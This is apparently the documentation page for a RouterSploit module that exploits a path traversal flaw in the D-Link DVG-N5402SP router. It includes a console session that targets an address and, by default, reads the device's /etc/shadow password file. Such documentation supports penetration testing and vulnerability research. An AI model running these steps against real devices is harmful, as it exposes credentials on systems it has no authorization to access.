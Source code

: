 # D-Link DVG-N5402SP Path Traversal

## Description
Module exploits D-Link DVG-N5402SP path traversal vulnerability, which allows reading files form the device

## Authors
* Karn Ganeshen # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/39409/](https://www.exploit-db.com/exploits/39409/)
* [http://ipositivesecurity.blogspot.com/2016/02/dlink-dvgn5402sp-multiple-vuln.html](http://ipositivesecurity.blogspot.com/2016/02/dlink-dvgn5402sp-multiple-vuln.html)

## Vulnerable devices
* D-Link DVG-N5402SP

## Usage
```
rsf > use exploits/dlink/dvg_n5402sp_path_traversal
rsf (D-Link DVG-N5402SP Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       8080                 Target port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     /etc/shadow          File to read


rsf (D-Link DVG-N5402SP Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DVG-N5402SP Path Traversal) > run
[*] Running module...
```
